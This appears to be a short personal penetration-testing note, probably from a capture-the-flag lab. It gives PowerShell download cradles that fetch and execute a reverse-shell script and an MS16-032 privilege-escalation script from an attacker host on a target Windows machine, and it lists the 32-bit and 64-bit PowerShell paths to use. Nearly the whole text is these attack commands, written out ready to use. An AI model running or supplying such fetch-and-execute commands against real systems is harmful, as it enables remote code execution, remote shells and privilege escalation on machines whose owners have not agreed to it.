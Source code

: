 I used below command on multiple systems to get a file on target windows system after [[How to make your system into a server using python module]]



c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32/reverse.ps1')


or we can use theis directly into powershell

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32/reverse.ps1')

One more thing to keep in mind

It we want to use 32 bit, we can use below full path to powershell:
1. c:\windows\system32\WindowsPowershell\v1.0\powershell.exe
2. c:\windows\sSyswow64\WindowsPowershell\v1.0\powershell.exe

it we want to use 64 bit we can use abe earlier mentioned one

IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.32/Invoke-MS16032.ps1')